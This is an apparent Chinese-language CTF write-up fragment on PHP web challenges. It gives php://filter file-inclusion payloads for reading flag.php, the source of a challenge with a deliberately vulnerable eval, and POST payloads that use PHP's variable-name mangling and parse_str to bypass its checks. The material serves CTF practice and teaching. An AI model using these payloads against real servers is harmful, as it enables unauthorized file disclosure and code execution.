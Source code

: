 ```
可以直接用不带任何过滤器的filter伪协议
payload:file=php://filter/resource=flag.php
也可以用一些没有过滤掉的编码方式和转换方式
payload:file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
file=compress.zlib://flag.php
payload:file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
```
<a href="https://blog.csdn.net/qq_49480008/article/details/113753951">探索php伪协议以及死亡绕过</a>


#### <font color="yellow">特殊绕过</font>
<a href="https://www.php.net/manual/zh/function.parse-str.
php">assert函数</a>

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```
分析:
```
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g']))

PHP变量名应该只有数字字母下划线,同时GET或POST方式传进去的变量名,会自动将空格+ . [转换为_
但是有一个特性可以绕过,使变量名出现.之类的
特殊字符[, GET或POST方式传参时,变量名中的[也会被替换为_,但其后的字符就不会被替换了
如 CTF[SHOW.COM=>CTF_SHOW.COM
```
payload:
```
方法一:
get:
?a=1+fl0g=flag_give_me
post:
CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])

方法二:
get:
?a=1+fl0g=flag_give_me
post:
CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])


方法三:
CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag
```
<a href="https://www.php.net/manual/zh/function.call-user-func.php">call_user_func函数</a></br>
<a href="https://www.php.net/manual/zh/function.get-defined-vars.php">get_defined_vars函数</a></br>
<a href="https://blog.csdn.net/qq_49480008/article/details/115384498">GetText</a>
